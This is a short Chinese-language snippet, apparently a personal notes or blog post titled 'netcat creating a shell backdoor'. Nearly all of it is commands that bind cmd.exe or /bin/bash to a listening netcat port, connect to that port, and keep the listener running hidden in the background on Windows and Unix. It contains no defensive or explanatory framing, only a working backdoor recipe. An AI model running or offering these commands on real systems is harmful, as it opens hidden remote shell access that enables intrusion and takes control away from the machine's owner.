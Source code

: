 ```yaml
---
title: netcat创建shell后门
tags:
  - Snippet
  - shell
  - 后门
  - netcat
categories:
  - - shellcode
    - shell
date: 2023-02-08 10:44:55
---
```



[下载netcat](https://eternallybored.org/misc/netcat/)

```bash
# -l: 一次性, -t: 使用telnet协议, -e 关联程序
nc -l -p <端口> -t -e cmd.exe

# -L: 重复, -t: 使用telnet协议, -e 关联程序
nc -L -p <端口> -t -e cmd.exe

# 连接
nc <ip or server host> <port>
```

## 后台运行

```bash
# windows
start /b nc -L -p <端口> -d -t -e cmd.exe

# unix
nc -L -p <端口> -d -t -e /bin/bash
```

